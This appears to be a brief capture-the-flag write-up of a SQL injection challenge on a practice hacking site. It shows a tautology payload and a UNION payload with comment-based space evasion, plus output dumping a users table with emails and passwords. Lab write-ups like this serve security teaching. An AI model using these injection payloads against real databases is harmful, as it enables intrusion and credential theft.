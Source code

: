 # Challenge 1
  - https://canyouhack.us/c/14892b6aa415e8a154424f8c1a3a9aa3


## SQL Injection

It's clear that the form field isn't sanitizing user input and passing raw SQL statements to the DB.

`' or 1=1 --` gives us:

```
Results:
1		Cryptonomicon		Neal Stephenson		Avon		2002		978-0060512804
2		1984		George Orwell		Secker and Warburg		1949		978-0-14-118776-1
3		Anathem		Neal Stephenson		HarperCollins Publishers		2009		978-0061474101
4		Neuromancer		William Gibson		Ace		1984		0-441-56956-0
5		Superintelligence		Nick Bostrom		Oxford University Press		2014		978-0199678112
```

This is the query it's passing

`SELECT * FROM books WHERE title=''`

So modifying it to read from the users table through the form field reveals what we need

`'/**/UNION/**/Select/**/*/**/FROM/**/users--`

```
Results:
1		bob		bob@mailinator.com		bobbobberson!		1		1
2		jim		jim@gmail.com		jimisthebest123		1		1
3		flag		you.got@me.com		a518de63035f6de0f5f6a6e95b07d1b2		1		1
4		jill		jill@mailtothis.com		jackandjill1		1		1
```
